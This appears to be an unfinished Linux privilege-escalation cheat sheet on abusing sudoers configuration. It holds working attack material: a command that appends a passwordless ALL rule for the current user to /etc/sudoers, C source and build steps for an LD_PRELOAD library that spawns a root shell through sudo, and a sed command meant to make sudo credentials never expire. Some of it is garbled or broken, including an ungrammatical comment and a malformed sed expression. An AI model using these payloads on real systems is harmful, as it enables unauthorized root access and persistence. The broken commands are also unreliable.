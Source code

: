 #### Sudoers

The file /etc/sudoers and the files inside /etc/sudoers.d configure who can use sudo and how.

```bash
sudo -l # Check if they are scripts than once launch, they are run as root
echo "$(whoami) ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers
```

If LD_PRELOAD is explicitly defined in the sudoers file, compile the following C code with *gcc -fPIC -shared -o shell.so shell.c -nostartfiles*

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
  unsetenv("LD_PRELOAD");
  setgid(0);
  setuid(0);
  system("/bin/sh");
}
```

Then execute this payload like this

```bash
sudo LD_PRELOAD=/tmp/shell.so echo "Thomas"
```

#### tty_tickets,  env_reset & timestamp_timeout

> / / / To finish

When a user authenticates with sudo, a ticket is temporarily created that allows sudo to run without re-authentication for a short period of time.
If a user logs out and the ticket is not cleared, the ticket is reused when the user logs back in, and the user does not need to re-authenticate.

If tty_tickets is disabled, the requirement for sudo users to re‑authenticate is controlled by this policy and the adclient.sudo.clear.passwd.timestamp setting in the agent configuration file.

[env_reset]

timestamp_timeout: Number of minutes that can elapse before sudo will ask for a passwd again.
-> The default is 5
Set this to 0 to always prompt for a password.
If set to a value less than 0 the user's time stamp will not expire until the system is rebooted.

- Defaults env_reset
  -> By default, the env_reset flag is enabled. This causes commands to be executed with a new, minimal environment. On AIX (and Linux systems without PAM), the environment is initialized with the contents of the /etc/environment file.
- Defaults !env_reset
  -> don't reset any environment variables from the invoking process, for ALL users.

```bash
sudo sed -i 'timestamp_timeout=-1/' /etc/sudoers
```
